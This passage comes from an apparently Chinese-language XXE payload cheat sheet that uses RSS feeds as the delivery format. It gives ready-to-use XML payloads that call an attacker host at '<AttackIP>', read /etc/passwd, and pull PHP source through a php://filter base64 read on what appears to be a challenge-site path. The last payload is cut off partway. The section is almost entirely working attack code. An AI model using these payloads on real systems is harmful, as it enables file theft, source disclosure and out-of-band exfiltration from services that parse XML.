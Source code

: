 #### [Ping back](#toc_ping-back)

对攻击者服务器发起简单的 HTTP 请求：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### [Read file](#toc_read-file)

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### [Read source code](#toc_read-source-code)

使用 PHP base64 过滤器

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
```